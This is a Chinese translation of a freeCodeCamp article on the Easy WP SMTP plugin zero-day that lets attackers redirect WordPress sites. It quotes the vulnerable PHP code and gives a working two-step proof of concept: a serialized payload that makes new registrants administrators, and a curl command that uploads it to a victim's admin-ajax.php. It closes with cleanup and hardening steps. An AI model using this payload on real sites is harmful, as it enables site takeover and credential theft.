

# 如何消除黑客对 WordPress 的重定向——看看易 WP SMTP 插件漏洞

> 原文：<https://www.freecodecamp.org/news/how-to-remove-the-wordpress-redirects-by-hackers-easy-wp-smtp-plugin-vulnerability-41dc56f9b3aa/>

由阿特曼·拉特霍德

# **如何清除黑客对 WordPress 的重定向——看易 WP SMTP 插件漏洞**


我相信，如果你发现你的网站被重定向到一个垃圾网站，你会感到被冒犯，不是吗？唉！如果你为你的 WordPress 网站采取了所有预防措施，你甚至会感到更受冷落。真的吗？在这个数字世界中，每天有 30，000 个网站被黑客攻击，今天可能就是你的一天。因此，当务之急是为袭击之日找到解决方案。

首先，您需要确定攻击者如何能够插入恶意代码，以便网站重定向到网络钓鱼或恶意软件网站并获取流量。最近，当我们面临同样的问题时，我们发现黑客通过 WP SMTP 插件获得了访问权限。

众所周知的 Easy WP SMTP 插件每月有 30 万次活跃安装，容易出现零日漏洞。它给了一个未知用户访问和修改 WordPress 设置的权利。

> “几乎 30%的在线网站是用 WordPress 开发的，这使它成为最好的内容管理系统。然而，如果我们看看人气阴影，那么它就成了黑客的首选。”

由于最近揭露的[零日(0-day)](https://en.wikipedia.org/wiki/Zero-day_(computing)) [漏洞](https://db.threatpress.com/vulnerability/easy-wp-smtp/wordpress-easy-wp-smtp-plugin-1-3-9-unauthenticated-arbitrary-wp-options-import-vulnerability)，Easy WP SMTP 插件越来越受欢迎。下载量高的插件攻击成功率更高。在学习解决方案之前，让我们详细了解一下这个插件。

#### **Easy WP SMTP 插件零日漏洞**


Easy WP SMTP 的出现使得从你的 WordPress 网站发送电子邮件变得容易。即使它的目的是通过 SMTP 而不是本机 [wp_mail()](https://developer.wordpress.org/reference/functions/wp_mail/) 函数发送邮件，它也是成功的。

像其他 WordPress 插件一样，Easy WP SMTP 插件有自己的管理页面，可以让你指定 SMTP 配置所需的数据。与此同时，还有一个导入和导出设置的功能，这是黑客可以轻松进入的地方。

除此之外，还有几个攻击媒介会将攻击者引向管理员级别或 SMTP 凭证等[敏感数据泄漏](https://blog.threatpress.com/check-sensitive-information-leakage/)。

考虑以下代码:

```
add_action( 'admin_init', array( $this, 'admin_init' ) );......function admin_init() { if ( defined( 'DOING_AJAX' ) && DOING_AJAX ) {   add_action( 'wp_ajax_swpsmtp_clear_log', array( $this, 'clear_log' ) );   add_action( 'wp_ajax_swpsmtp_self_destruct', array( $this, 'self_destruct_handler' ) ); }
```

```
//view log file if ( isset( $_GET[ 'swpsmtp_action' ] ) ) {     if ( $_GET[ 'swpsmtp_action' ] === 'view_log' ) {  $log_file_name = $this->opts[ 'smtp_settings' ][ 'log_file_name' ];  if ( ! file_exists( plugin_dir_path( __FILE__ ) . $log_file_name ) ) {      if ( $this->log( "Easy WP SMTP debug log file\r\n\r\n" ) === false ) {   wp_die( 'Can\'t write to log file. Check if plugin directory  (' . plugin_dir_path( __FILE__ ) . ') is writeable.' );      };  }  $logfile = fopen( plugin_dir_path( __FILE__ ) . $log_file_name, 'rb' );  if ( ! $logfile ) {      wp_die( 'Can\'t open log file.' );  }  header( 'Content-Type: text/plain' );  fpassthru( $logfile );  die;     } }
```

```
//check if this is export settings request $is_export_settings = filter_input( INPUT_POST, 'swpsmtp_export_settings', FILTER_SANITIZE_NUMBER_INT ); if ( $is_export_settings ) {     $data      = array();     $opts      = get_option( 'swpsmtp_options', array() );     $data[ 'swpsmtp_options' ]   = $opts;     $swpsmtp_pass_encrypted    = get_option( 'swpsmtp_pass_encrypted', false );     $data[ 'swpsmtp_pass_encrypted' ]  = $swpsmtp_pass_encrypted;     if ( $swpsmtp_pass_encrypted ) {  $swpsmtp_enc_key   = get_option( 'swpsmtp_enc_key', false );  $data[ 'swpsmtp_enc_key' ]  = $swpsmtp_enc_key;     }     $smtp_test_mail    = get_option( 'smtp_test_mail', array() );     $data[ 'smtp_test_mail' ]  = $smtp_test_mail;     $out     = array();     $out[ 'data' ]    = serialize( $data );     $out[ 'ver' ]    = 1;     $out[ 'checksum' ]   = md5( $out[ 'data' ] );
```

```
$filename = 'easy_wp_smtp_settings.txt';     header( 'Content-Disposition: attachment; filename="' . $filename . '"' );     header( 'Content-Type: text/plain' );     echo serialize( $out );     exit; }
```

```
$is_import_settings = filter_input( INPUT_POST, 'swpsmtp_import_settings', FILTER_SANITIZE_NUMBER_INT ); if ( $is_import_settings ) {   $err_msg = __( 'Error occurred during settings import', 'easy-wp-smtp' );   if ( empty( $_FILES[ 'swpsmtp_import_settings_file' ] ) ) {   echo $err_msg;   wp_die();  }  $in_raw = file_get_contents( $_FILES[ 'swpsmtp_import_settings_file' ][ 'tmp_name' ] );  try {   $in = unserialize( $in_raw );   if ( empty( $in[ 'data' ] ) ) {     echo $err_msg;     wp_die();   }   if ( empty( $in[ 'checksum' ] ) ) {     echo $err_msg;     wp_die();   }   if ( md5( $in[ 'data' ] ) !== $in[ 'checksum' ] ) {     echo $err_msg;     wp_die();   }   $data = unserialize( $in[ 'data' ] );   foreach ( $data as $key => $value ) {     update_option( $key, $value );   }   set_transient( 'easy_wp_smtp_settings_import_success', true, 60 * 60 );   $url = admin_url() . 'options-general.php?page=swpsmtp_settings';   wp_safe_redirect( $url );   exit;  } catch ( Exception $ex ) {   echo $err_msg;   wp_die();  } }}
```

当用户想要进入管理区域时，通过 admin_init 钩子调用脚本 easy-wp-smtp.php 中的函数 admin_init()。这有助于管理员编辑每一个功能，从添加或删除日志到导入或导出 WordPress 数据库中的插件配置。

当您调用该函数时，它不会检查用户能力，因此任何登录的用户都可以触发它。这里的限制是，它可以由任何未经认证的用户实现，因为 Easy WP SMTP 是使用 AJAX 构建的，admin_init hook 也可以在 admin-ajax.php 上实现，如 WordPress API 文档中所述。

因此，现在未经身份验证的用户可以很容易地发送一个 AJAX 请求，例如 action=swpsmtp_clear_log，来调用上述函数并运行代码。

因此，为了保护您的网站，我们建议您始终将 Easy WP SMTP 插件更新到可用的最新版本。

#### **记下概念证明**

以下两步概念验证允许您创建一个用户 ID，您可以在其中访问 admin 并进行更改以删除恶意软件代码。简而言之，它允许你完全控制网站。

这里，您需要使用 swpsmtp_import_settings 来上传一个包含恶意序列化负载的文件。该文件帮助用户在数据库中注册并设置默认角色为“管理员”。

**1。创建一个名为“/tmp/upload.txt”的文件，并将此内容添加到其中:**

```
a:2:{s:4:”data”;s:81:”a:2:{s:18:”users_can_register”;s:1:”1";s:12:”default_role”;s:13:”administrator”;}”;s:8:”checksum”;s:32:”3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

**2。上传文件:**

```
$ curl https://VICTIM.COM/wp-admin/admin-ajax.php -F ‘action=swpsmtp_clear_log’ -F ‘swpsmtp_import_settings=1’ -F ‘swpsmtp_import_settings_file=@/tmp/upload.txt’
```

**其他需要注意的细节:**

*   通过 PHP 对象注入处理远程代码执行，因为 Easy WP SMTP 使用不安全的 unserialize()调用运行。
*   标记在不同的日志上，因为黑客可以更改日志文件名。
*   通过导出包括 SMTP 主机、用户名和密码的插件配置，黑客可以用它来发送垃圾邮件。

#### **清除恶意软件的步骤 WordPress 重定向**



*   更改密码并检查注册用户
*   找到并删除网站上不需要的插件和主题
*   使用适当的工具彻底检查网站
*   找到合适的 WordPress 插件来扫描你的网站文件
*   彻底检查所有受影响的文件
*   重新安装你的 WordPress 文件、插件和主题
*   将网站重新提交给谷歌

#### **其他重要建议**

如果您使用的是旧版本的 Easy WP SMTP 插件，请检查以下事项:

*   检查设置页面，确保从 URL 到用户默认角色没有任何错误。
*   检查新的管理员帐户，电子邮件地址和更多。
*   更改所有密码
*   也改变你的 SMTP 密码，因为黑客现在可能有密码。
*   安装 web 应用程序防火墙以获得更好的安全性。
*   确保你不安装未知的插件或主题
*   每月更新你所有的主题和插件
*   确保定期备份 WordPress 的安装
*   如果需要的话，把网站主机换成安全性更好的。